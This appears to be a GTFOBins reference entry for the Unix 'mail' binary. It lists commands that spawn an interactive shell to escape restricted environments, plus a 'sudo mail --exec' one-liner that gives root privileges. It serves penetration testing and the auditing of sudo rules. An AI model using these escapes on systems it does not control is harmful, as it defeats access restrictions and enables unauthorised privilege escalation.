 # GTFOBin: mail

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

GNU version only.

```
mail --exec='!/bin/sh'
```

This creates a valid Mbox file which may be required by the binary.

```
TF=$(mktemp)
echo "From nobody@localhost $(date)" > $TF
mail -f $TF
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

GNU version only.

```
sudo mail --exec='!/bin/sh'
```